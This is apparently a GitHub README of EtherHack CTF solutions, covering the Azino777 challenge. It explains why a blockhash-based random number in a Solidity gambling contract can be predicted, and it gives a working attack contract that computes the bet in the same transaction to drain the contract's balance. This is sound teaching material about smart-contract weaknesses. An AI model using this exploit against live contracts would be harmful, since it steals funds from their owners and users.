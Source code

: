 # EtherHack CTF Solutions
<center>
    <img src="https://etherhack.positive.com/imgs/etherhack.jpg" width="50%"/>
</center>
<br />

[EtherHack CTF](https://etherhack.positive.com/#/) solutions ⛳️

> NOTE: All challenges' smart contracts code are upgraded to v0.8.20. This does not affect at all the challenges behavior

### Useful commands for all challenges
`forge compile`: Compile smart contracts
`forge test`: Run tests for challenges solution
`forge test -vvv`: Run tests for challenges with tracers enabled (recommended for all challenges, to output the logs of the states before and after the exploit)

## Challenges

1. [Azino 777](#01---azino777)
   
## 01 - Azino777

To solve this challenge, we need to guess the correct input `bet` that should match a *generated random* value in order to take all the contract's balance:
```solidity
function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
}
```
This challenge shows the hardness of generating a **secure random number in smart contracts**. Someone checking the `rand` function implementation may think it generates a random number **while it does not**
```solidity
//Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
}
```
Statistically saying, we have a chance of 1% to guess the correct number on each try.<br/>
After inspecting the function logic, we notice that all the factors contributing to generating the *random* number are constants and pre-deterministic except for `hashVal` (which is the blockhash of the last block casted to uint256). So, if we get to know the value of the `hashVal` before the calculation starts, we could easily predict the *random number* by simply doing the same calculation in advance.<br />
For us to predict the true number, we can simply perform in **one transaction** the calculation of the *random number* using the same `rand` logic on our own and then, invoking the function `spin` passing the value we got by our calculation. And because both operations are in the same transaction, the `hashVal` will be the same for both calculations!! Hence, increasing the chances to get the correct number to **100%**!! <br />
Attack contract: 
```solidity
contract AzzinoHack {
    Azino777 public target;
    constructor(address payable _target) {
        target = Azino777(_target);
    }
    uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
    function attack() payable external {
        // max is always passed as 100
        uint256 factor = FACTOR * 100 / 100;
        uint256 lastBlockNumber = block.number - 1;
        uint256 hashVal = uint256(blockhash(lastBlockNumber));

        uint bet =  uint256((uint256(hashVal) / factor)) % 100;
        target.spin{value: address(this).balance}(bet);
    }

    receive() external payable {}
}
```
[Attack contract](./src/Azino777.sol) | [Tests](./test/Azino777.t.sol)